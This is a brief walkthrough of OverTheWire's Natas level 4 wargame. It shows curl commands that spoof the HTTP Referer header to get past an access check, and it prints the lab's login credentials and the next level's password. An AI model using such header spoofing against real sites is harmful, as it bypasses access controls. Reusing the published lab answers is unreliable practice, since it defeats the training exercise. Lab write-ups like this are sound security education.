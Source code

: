 This challenge is about http headers 

Upon logging in we see 
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"


We can use the curl command to see headers being sent to server 


curl -v -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org/


HTTP Headers can be modified by the user before being sent 

This challenge is using the referr http header as  security 


To add the correct referr header we can use what the error code gives us and modify our curl command

curl -v -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer:http://natas5.natas.labs.overthewire.org/"

<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK

we get the answer to natas5
